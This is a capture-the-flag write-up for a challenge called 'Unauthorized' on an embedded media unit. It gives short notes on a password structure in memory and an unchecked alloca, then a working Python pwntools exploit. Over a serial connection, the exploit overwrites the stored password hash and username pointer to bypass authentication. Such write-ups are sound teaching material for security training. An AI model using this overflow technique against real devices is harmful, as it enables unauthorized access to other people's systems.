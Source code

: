 # Unauthorized, Exp, 100pts

> Let's do something simple. This media unit has a Wifi access point and looks like remote access is possible. But only if you know the right password.


Notes:

```
structure at 0x3001
sha256(password) - 0x20 bytes
address(username) - 2 bytes
size(username) + 1 - 2 bytes
username
```

We can overwrite it, because of unchecked `alloca`.

Final code:

```python
#!/usr/bin/python2

from pwn import *


def attack(connection):
    def send(bytes):
        for byte in bytes:
            connection.send(byte)
            connection.recvuntil(byte)

    user = "p4"
    password = "P4 8 11 |~gg~|`jjnb"

    connection.recvuntil("Initialized      \r\n")

    buffer = StringIO()
    buffer.write("{:d}:".format(0x0eac))
    buffer.write("10:")
    buffer.write(hashlib.sha256(password).digest())
    buffer.write(p16(0x3025))
    buffer.write(p16(len(user) + 1))
    buffer.write(user)
    buffer.write("\x00")
    data = buffer.getvalue()
    if "\n" in data:
        raise Exception
    send("{:s}\n".format(data))

    connection.recvuntil("Unknown user!")

    send("{:d}:{:d}:{:s}{:s}\n".format(len(user), len(password), user, password))

    connection.recvuntil("FIXME")


context.log_level = "debug"
with serialtube(port = "/dev/ttyUSB0", baudrate = 115200) as connection:
    attack(connection)
```
